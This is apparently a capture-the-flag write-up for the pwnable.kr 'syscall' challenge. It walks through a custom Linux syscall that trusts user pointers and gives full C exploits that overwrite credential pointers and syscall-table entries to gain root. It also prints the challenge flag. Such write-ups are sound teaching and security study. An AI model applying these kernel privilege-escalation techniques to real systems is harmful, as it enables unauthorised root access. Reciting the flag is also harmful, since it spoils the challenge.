

Challenge Description
We get the following hint:
I made a new system call for Linux kernel.
It converts lowercase letters to upper case letters.
would you like to see the implementation?
FYI: http://pwnable.kr/bin/syscall.c
ssh syscall@pwnable.kr -p2222 (pw:guest)Let's connect:
ssh syscall@pwnable.kr -p2222When connecting, the terminal floods with kernel boot messages. I wait for it to finish and eventually get dropped into a shell. At the end of the log I see this print:
...
sys_upper(number : 223) is added
cttyhack: can't open '/dev/ttyS0': No such file or directory
sh: can't access tty; job control turned off
/ $Source Code Analysis
The challenge provides source code for a custom kernel module that adds a new system call:
// adding a new system call : sys_upper
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/slab.h>
#include <linux/vmalloc.h>
#include <linux/mm.h>
#include <asm/unistd.h>
#include <asm/page.h>
#include <linux/syscalls.h>
#define SYS_CALL_TABLE 0x8000e348 // manually configure this address!!
#define NR_SYS_UNUSED 223
//Pointers to re-mapped writable pages
unsigned int** sct;
asmlinkage long sys_upper(char *in, char* out){
int len = strlen(in);
int i;
for(i=0; i<len; i++){
if(in[i]>=0x61 && in[i]<=0x7a){
out[i] = in[i] - 0x20;
}
else{
out[i] = in[i];
}
}
return 0;
}
static int __init initmodule(void ){
sct = (unsigned int**)SYS_CALL_TABLE;
sct[NR_SYS_UNUSED] = sys_upper;
printk("sys_upper(number : 223) is added\n");
return 0;
}
static void __exit exitmodule(void ){
return;
}
module_init( initmodule );
module_exit( exitmodule );Observations:
- System call number 223 is registered with a custom
sys_upperfunction - The syscall table is at a hardcoded address:
0x8000e348 - The
sys_upperfunction converts lowercase ascii characters to uppercase - It takes two parameters:
in(input buffer) andout(output buffer) - There is no bounds checking on the buffers
- The syscall table (
sct) is writable from kernel space
First Attempt: Buffer Overflow
Looking at the code, my first thought was buffer overflow. The syscall uses strlen() and has no bounds checking:
int len = strlen(in);
int i;
for(i=0; i<len; i++){
if(in[i]>=0x61 && in[i]<=0x7a){
out[i] = in[i] - 0x20;
}
else{
out[i] = in[i];
}
}I tested this with a small output buffer to trigger an overflow:
#define _GNU_SOURCE
#include <unistd.h>
#include <sys/syscall.h>
#include <stdio.h>
#include <string.h>
#define __NR_sys_upper 223
int main(void) {
char in[] = "Hello kernel syscall!";
char out[5]; // buffer overflow, getting stack smashing detected
memset(out, 0, sizeof(out));
long upper_ret = syscall(__NR_sys_upper, in, out);
printf("upper_ret : %d\n", upper_ret);
printf("in : %s\n", in);
printf("out: %s\n", out);
return 0;
}This triggered a stack canary protection message, which means I could overflow the stack. However, the challenge environment had no gdb or debugging tools, making exploitation difficult.
But I learned two important things:
- I can call the syscall successfully
- I have complete control over the arguments
Setting Up a Local Environment
To understand the vulnerability better, I needed a local debugging setup. The challenge runs an old kernel:
/ $ uname -a
Linux (none) 3.11.4 #13 SMP Fri Jul 11 00:48:31 PDT 2014 armv7l GNU/LinuxI tried setting up kernel 3.11.4 locally, but it was really hard and I had tons of compilation errors. Each run took forever before it crashed, so it was very time consuming.
Instead, I used a modern kernel (5.4) from pwn.college's kernel setup. The version was different from the challenge environment, but I assumed that the primitive would be the same, and I could also learn more about the kernel internals.
Writing the Syscall in Modern Kernel
I first tried to create the syscall as a loadable kernel module using insmod, but this didn't work in modern kernels because the syscall table is read-only - you can't modify it at runtime like the challenge's old kernel allows.
Instead, I followed the kernel documentation on adding syscalls to add the syscall to the kernel source code directly.
In linux-5.4/kernel/fork.c I added the syscall implementation:
SYSCALL_DEFINE2(upper, const char __user *, in, char __user *, out)
{
pr_info("Hello from Yael's syscall");
int len = strlen(in);
int i;
for(i=0; i<len; i++){
if(in[i]>=0x61 && in[i]<=0x7a){
out[i] = in[i] - 0x20;
}
else{
out[i] = in[i];
}
}
return 0;
}In linux-5.4/include/linux/syscalls.h I declared the syscall:
asmlinkage long sys_upper(const char __user *in, char __user *out);In linux-5.4/arch/x86/entry/syscalls/syscall_64.tbl I added the syscall number to the syscall table with number 436:
436 common upper __x64_sys_upperThen I compiled the kernel successfully and launched it in QEMU.
Debugging and Finding the Primitive
To debug, I ran the kernel in one terminal:
./launch.sh # includes -s flag for qemu to enable gdb attachmentIn another terminal, I attached gdb:
pwndbg ./linux-5.4/vmlinux
# inside gdb
target remote :1234
break __do_sys_upper
continueWith gdb running, I started testing the syscall. I passed it various inputs and noticed something interesting: I control both the in and out pointers completely.
This means:
- I can read from any address (
in) - I can write to any address (
out)
This is an arbitrary write primitive!
The syscall reads bytes from in, potentially modifies them if they are in the lowercase range (uppercase conversion), and writes them to out. Since both pointers come from the user, I can point them anywhere in kernel memory.
Exploitation Strategy
Having an arbitrary write primitive is great, but the question is: what to write and where? The goal is privilege escalation to root.
Understanding Linux Credentials
In the Linux kernel, every process is represented by a task_struct. Each task has an associated cred (credentials) structure containing:
- User ID (UID)
- Group ID (GID)
- Various capability flags
When you run a program as a regular user, your task's cred has your UID (e.g., 1000). Root processes have UID 0. The kernel checks these credentials for all privileged operations.
The task_struct is defined in the include/linux/sched.h file and contains the cred pointers:
struct task_struct {
...
/* process credentials */
const struct cred __rcu *real_cred; /* objective and real subjective task * credentials (COW) */
const struct cred __rcu *cred; /* effective (overridable) subjective task * credentials (COW) */
...
}The cred structure is defined in include/linux/cred.h file:
struct cred {
...
kuid_t uid; /* real UID of the task */
kgid_t gid; /* real GID of the task */
kuid_t suid; /* saved UID of the task */
kgid_t sgid; /* saved GID of the task */
kuid_t euid; /* effective UID of the task */
kgid_t egid; /* effective GID of the task */
...
}The kernel provides helper functions for credential management:
struct cred *prepare_kernel_cred(struct task_struct *) // Prepare a set of credentials for a kernel service;
int commit_creds(struct cred *); // Permanently replaces the current task's credentials
const struct cred *override_creds(const struct cred *); // Temporarily overrides credentials (must be reverted with `revert_creds`)When calling prepare_kernel_cred(NULL), it creates a new credential structure with all IDs set to 0 (root). Then, calling commit_creds(cred) sets the current task's credentials to this new structure, effectively making the process root.
So, the standard kernel privilege escalation pattern is:
struct cred *cred = prepare_kernel_cred(NULL);
commit_creds(cred); // or override_creds(cred);I wasn't sure how I could call these functions for privilege escalation, since the syscall table was not writable. Instead, I thought about directly overriding the task->cred->uid and task->cred->euid to 0 and become root.
Finding Credential Addresses
For this direct override, I need to find the address of the task->cred->uid and task->cred->euid.
I used this .gdbinit script to print the address that points to the creds.
define showcred
set $cpu = 0
set $off = __per_cpu_offset[$cpu]
set $task = *(struct task_struct **)((char *)¤t_task + $off)
printf "cpu=%d task=%p pid=%d comm=%s\n", $cpu, $task, $task->pid, $task->comm
printf "&task->cred = %p\n", &($task->cred)
printf "&task->real_cred = %p\n", &($task->real_cred)
printf "task->cred = %p\n", $task->cred
if $argc > 0
p *(struct cred *)$task->cred
end
end
end
document showcred
showcred → prints task + cred + real_cred pointer only
showcred full → also prints struct cred
endRunning this multiple times, I noticed something very useful: without KASLR, the credentials structure address was always the same!
cpu=0 task=0xffff888006bb0c40 pid=99 comm=euid
&task->cred = 0xffff888006bb1278
&task->real_cred = 0xffff888006bb1270These addresses (0xffff888006bb1278 and 0xffff888006bb1270) were the same across runs, making them predictable targets for my arbitrary write.
The Null Byte Problem
My idea was to overwrite task->cred->uid and task->cred->euid with 0. However, there's a problem: the integer 0 is a null byte (\x00), and strlen() in the syscall stops at null bytes. The syscall would see length 0 and exit without writing anything.
The Solution: init_cred
Instead of trying to write zeros, I found special credential struct called init_cred - this is the kernel's initial credential structure, and it has all the IDs already set to 0. If I can make the task's credential pointers point to init_cred, we instantly become root.
I found init_cred's address in /proc/kallsyms.
Exploit plan:
- Locate
init_credin kallsyms (consistent address without KASLR) - Use arbitrary write to overwrite
&(task->cred)with the address ofinit_cred - Overwrite
&(task->real_cred)withinit_credas well (both pointers must match to avoid kernel panic: kernel source)
Local Exploit
#define _GNU_SOURCE
#include <unistd.h>
#include <sys/syscall.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>
#include <errno.h>
#define __NR_sys_upper 436
int main(void) {
uint64_t init_cred = 0xffffffff82443f40ULL;
unsigned char buf[8];
memcpy(buf, &init_cred, 8);
// from gdb: &task->cred = 0xffff888006bb1278 (consistent across runs due to no KASLR)
uint64_t current_cred_ptr = 0xffff888006bb1278ULL;
uint64_t real_cred_ptr = 0xffff888006bb1270ULL;
printf("[*] Before: UID=%d, EUID=%d\n", getuid(), geteuid());
long ret = syscall(__NR_sys_upper, buf, current_cred_ptr);
long ret2 = syscall(__NR_sys_upper, buf, real_cred_ptr);
printf("syscall overriding cred ptr returned: %ld\n", ret);
printf("syscall overriding real cred ptr returned: %ld\n", ret2);
printf("[*] After: UID=%d, EUID=%d\n", getuid(), geteuid());
system("/bin/sh");
return 0;
}compile it with
gcc -static -o exploit exploit.cand running it:
/ $ id -u
1000
/ $ ./exploit
[*] Before: UID=1000, EUID=1000
syscall overriding cred ptr returned: 0
syscall overriding real cred ptr returned: 0
[*] After: UID=0, EUID=0
/ $ id -u
0It worked! we are root in the local environment.
Back to pwnable.kr
It was great having the debugging environment and being able to peek into all the kernel addresses. In the pwnable.kr environment, things are a bit different and I have much less observability, but on the other hand, the kernel version is much older and lacks many of the constraints that the modern kernel version I used had.
However, the primitive is the same in both cases: I can write whatever I want to wherever I want.
The pwnable.kr environment differs:
- Much older kernel (3.11.4 vs 5.4)
- ARM architecture (armv7l)
- Writable syscall table
Overriding the syscall table
As observed from the syscall source code above, the syscall table is writable from the kernel. This means that, using the write primitive, I can override entries in the syscall table.
The syscall table contains the address of each syscall function, and each entry resides at the offset corresponding to the syscall number (for example, the write syscall is 0 so it's the first entry, execve is 11 so it's at offset 11, etc.).
I decided that a good approach would be to overwrite some entries to point to the kernel APIs we discussed earlier: prepare_kernel_creds and commit_creds, which would allow me to become root.
I first tried a POC where I wrote the time syscall into the exit entry, since it's easy to verify whether time was called (the return value is the current time).
This is the calculation of the address to override in the syscall table:
- We start with the syscall table address:
0x8000e348 - Each entry is 4 bytes (32 bits) long for 32-bit architecture
- We need the 6th entry for
exit(syscall number 6)
__NR_exit = 6 # 6 is the syscall number for exit
sys_call_table[6]
= *(unsigned int *)(0x8000e348 + 6 * 4) # 0x8000e348 is the address of the syscall table, 4 bytes per entry
= *(unsigned int *)(0x8000e360)This is the code that overrides exit with time and calls it:
#define _GNU_SOURCE
#include <unistd.h>
#include <sys/syscall.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>
#define __NR_sys_upper 223
#define __NR_exit 6
int main(void) {
uint32_t sys_time = 0x80023530; // the address of sys_time from kallsyms
long ret = syscall(__NR_sys_upper, &sys_time, 0x8000e360); // 0x8000e360 is the address in syscall table of exit
printf("syscall returned: %ld\n", ret);
long ret2 = syscall(__NR_prepare, NULL); // calling exit with actually time
printf("syscall exit/time returned: %ld\n", ret2);
return 0;
}got
/tmp/yael $ ./a.out
syscall returned: 0
syscall exit/time returned: 1768243724Using the epoch conversion tool:
1768243724 =>
GMT: Monday, January 12, 2026 6:48:44 PM
Yess!!
Writing kernel API to the syscall table
Now I want to write the actual kernel API to the syscall table. I first tried writing prepare_kernel_cred and commit_creds:
int main(void) {
uint32_t prepare = 0x8003f924; // the address of prepare_kernel_cred()
long ret = syscall(__NR_sys_upper, &prepare, 0x8000e7f8);
printf("syscall changing to prepare returned: %ld\n", ret);
uint32_t commit = 0x8003f56c; // the address of commit_creds(struct...)
long ret2 = syscall(__NR_sys_upper, &commit, 0x8000e7fc);
printf("syscall changing to commit returned: %ld\n", ret2);
long creds = syscall(__NR_prepare, NULL); // calling prepare with null
printf("Creds: 0x%lx\n", (unsigned long)creds);
long commit_ret = syscall(__NR_commit, (void *)creds); // commit creds
printf("syscall commit creds returned: %ld\n", commit_ret);
printf("UID: %d\n", getuid());
printf("EUID: %d\n", geteuid());
system("/bin/sh");
return 0;
}But this didn't work.
I then realized that the address of commit_creds contains the byte 0x6c, which is the lowercase ASCII character l. This means that when passing the commit_creds pointer to upper(), the address is modified, resulting in a different address and making it impossible to call commit_creds this way:
Original commit_creds: 0x8003f56c
^^-- 0x6c = 'l' (ASCII 108)
After sys_upper: 0x8003f54c
^^-- 0x4c = 'L' (ASCII 76)I tried replacing it with the byte 0x60, which is outside the lowercase ASCII range. Since it is the least significant byte, I hoped it would land on some NOP padding and eventually reach the commit_creds function. That didn't work either.
Looking for other alternatives:
/ $ cat /proc/kallsyms | grep cred | grep " T "
8002c19c T kill_pid_info_as_cred
8003f3d8 T override_creds
8003f44c T prepare_creds
8003f4c8 T __put_cred
8003f51c T revert_creds
8003f56c T commit_creds
8003f800 T abort_creds
8003f83c T exit_creds
8003f8bc T get_task_cred
8003f924 T prepare_kernel_cred
...override_creds looks interesting.
Looking at the documentation:
override_creds - Override the current process's subjective credentials.
This means it could serve as a good replacement for commit_creds, without the ascii complication.
Trying it:
#include <unistd.h>
#include <sys/syscall.h>
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#define __NR_sys_upper 223
#define __NR_prepare 224
#define __NR_override 225
typedef struct context_arm {
uint32_t prepare_kernel_cred_addr;
uint32_t override_creds_addr;
uint32_t syscall_table_prepare_entry;
uint32_t syscall_table_override_entry;
} context_arm;
int main(void) {
context_arm ctx = {
.prepare_kernel_cred_addr = 0x8003f924,
.override_creds_addr = 0x8003f3d8,
.syscall_table_prepare_entry = 0x8000e6c8, // 224th syscall
.syscall_table_override_entry = 0x8000e6cc // 225th syscall
};
long upper_prepare_ret = syscall(__NR_sys_upper, &ctx.prepare_kernel_cred_addr, ctx.syscall_table_prepare_entry);
printf("syscall changing to prepare returned: %ld\n", upper_prepare_ret);
long upper_override_ret = syscall(__NR_sys_upper, &ctx.override_creds_addr, ctx.syscall_table_override_entry);
printf("syscall changing to override returned: %ld\n", upper_override_ret);
long creds = syscall(__NR_prepare, NULL);
printf("Creds: 0x%lx\n", (unsigned long)creds);
long override_ret = syscall(__NR_override, (void *)creds);
printf("syscall override creds returned: %ld (0x%lx)\n",
override_ret, (unsigned long)override_ret);
printf("UID: %d\n", getuid());
printf("EUID: %d\n", geteuid());
system("/bin/sh");
return 0;
}gcc exploit.c -o exploitrunning it:
/ $ /tmp/exploit
syscall changing to prepare returned: 0
syscall changing to override returned: 0
Creds: 0x8372d280
syscall override creds returned: -2057227904 (0x85613180) # override should return creds pointer
UID: 0
EUID: 0
/ $ id -u # just to make sure :D
0
/ $ find / -type f -name "flag*" 2>/dev/null
/root/flag
/ $ cat /root/flag
Must_san1tize_Us3r_p0int3rFinally :)
References
- Highly recommended pwn college kernel for debugging: https://github.com/pwncollege/pwnkernel
- pwn college kernel security and exploitation lectures: https://www.youtube.com/playlist?list=PL-ymxv0nOtqowTpJEW4XTiGQYx6iwa6og
- Great video of adding syscall to Linux kernel: https://www.youtube.com/watch?v=Kn6D7sH7Fts
- Linux kernel credentials documentation: https://www.kernel.org/doc/Documentation/security/credentials.txt
- Linux kernel 3.11.4 source (cred.c): https://elixir.bootlin.com/linux/v3.11.4/source/kernel/cred.c